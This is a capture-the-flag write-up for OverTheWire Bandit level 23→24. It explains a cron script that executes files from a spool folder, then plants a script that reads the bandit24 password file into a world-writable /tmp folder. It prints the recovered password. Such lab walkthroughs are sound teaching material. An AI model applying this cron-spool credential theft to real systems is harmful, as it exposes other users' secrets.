 ```yaml
---
title: 'OverTheWire: Bandit Level 23 → Level 24'
description: '[OverTheWire - Bandit](https://overthewire.org/wargames/bandit/bandit24.html)'
date: '2021-03-17 10:22:25 +0530'
categories: [Security, OverTheWire]
tags: [overthewire, bandit, ctf, security, linux]
published: true
img_path: /assets/
image: images/overthewire-banner.png
---
```


## Level Goal

> A program is running automatically at regular intervals from **cron**, the time-based job scheduler. Look in **/etc/cron.d/** for the configuration and see what command is being executed.  
> **NOTE:** This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!  
> **NOTE 2:** Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…

## Commands you may need to solve this level

> cron, crontab, crontab(5) (use "man 5 crontab" to access this)

```
> whatis cron  
cron (8)         - daemon to execute scheduled commands (Vixie Cron)

> whatis crontab  
crontab (1)      - maintain crontab files for individual users (Vixie Cron)  
crontab (5)      - tables for driving cron
```

## Helpful Reading Material

[Linux/Mac Tutorial: Cron Jobs - How to Schedule Commands with crontab - YouTube](https://www.youtube.com/watch?v=QZJ1drMQz1A)

[shellmagic.xyz - This website is for sale! - shellmagic Resources and Information.](https://shellmagic.xyz/)

[Classic SysAdmin: Understanding Linux File Permissions - Linux Foundation](https://www.linux.com/training-tutorials/understanding-linux-file-permissions/)

[Timeout Command in Linux \| Linuxize](https://linuxize.com/post/timeout-command-in-linux/)

## Solution

Since we know there is a task that is being executed by cron let's have a look at all the cron jobs on the system

```
bandit23@bandit:~$ ls /etc/cron.d/  
cronjob_bandit15_root  cronjob_bandit17_root  cronjob_bandit22  cronjob_bandit23  cronjob_bandit24  cronjob_bandit25_root
```

Since we require the password for bandit24 the task that we are looking for should be `cronjob_bandit24`

```
bandit23@bandit:~$ cat /etc/cron.d/cronjob_bandit24
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
```

When we look at the contents of the file we see that there is a script that is executed on the system every minute. We can also see that bandit24 is the owner of the file.

**Note:** The @reboot is a special keyword that is used by Cron to run a job when the system is rebooted.

Let's have a look at the contents of the script and try to understand what is it trying to perform

```
bandit23@bandit:~$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash

myname=$(whoami)cd /var/spool/$myname
echo "Executing and deleting all scripts in /var/spool/$myname:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done
```

Let's break down the script line by line:

*   The output of `whoami` command is getting saved in a variable called `myname` (Since this script is being executed by bandit24 the output of `whoami` will be `bandit24` which is saved in the `myname` variable)
*   A folder called `bandit24` exists in the `/var/spool` directory. The working directory is changed to this folder.
*   Then a statement saying all the scripts that are present in the folder `/var/spool/bandit24` is being deleted is printed.
*   For loop is used to iterate through all the files in the directory (.\* : All files in current working directory)
*   A check is made to see if the currently selected file is called `.` or `..` if not then the rest of the code is executed. ("." means the current directory (bandit24) and ".." means the parent directory (spool))
*   The name of the currently selected file is printed and then the information about the owner of the file is saved in the variable "owner".
*   A check is made to check if the owner of the currently selected file is "bandit23". If it is then the currently selected file is executed and sent the KILL signal after waiting for 60 seconds and then deleted (-s flag in timeout command is used to specify the signal to send to the command "9" is an alias for the KILL command)

So from this, we understand that whatever file is saved in the folder "bandit24" gets executed and if the file was created by "bandit23" then after 60 seconds of execution the file is deleted. If we want the password for "bandit24" we need to write a script that will be executed from the bandit24 folder. The script that we write should get the password and save it in a location that we can access (`/tmp` directory)

Let's make a folder in the `/tmp` directory and use that as the base location for all the operations from here on out.

```
bandit23@bandit:~$ mkdir /tmp/rand

bandit23@bandit:~$ cd /tmp/rand
```

Create a file called `script.sh` using Vim or any other editor on the system and write the following code in the file.

```
#!/bin/bash  
cat /etc/bandit_pass/bandit24 > /tmp/rand/password
```

Since the output of the script is going to be saved in a file called `password` let's create a file with that name as well.

```
touch password
```

The cron job is executed by user bandit24 so when the job executes our script it is also going to have the permission of bandit24 which is not the same permission as we have because of this when the script tries to write output to the file called "password" it will fail so let's change the permission of all the files in the current folder so that any user can access them.

```
chmod 777 -R /tmp/rand
```

Finally, let's copy the script in the `bandit24` folder from where the cron job should execute our file.

```
cp script.sh /var/spool/bandit24
```

![Ls Command|420](images/bandit-23-24/ls-command.png)

After waiting for about a minute we should see that some data has been written into the password file. Let's view the content of this file.

```
bandit23@bandit:/tmp/rand$ cat password   
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
```

We have found the password !!

Logout of the current session and login into the next level as bandit24

```
> ssh bandit24@bandit.labs.overthewire.org -p 2220                                                                                                         

This is a OverTheWire game server. More information on http://www.overthewire.org/wargames

bandit24@bandit.labs.overthewire.org's password: UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
```
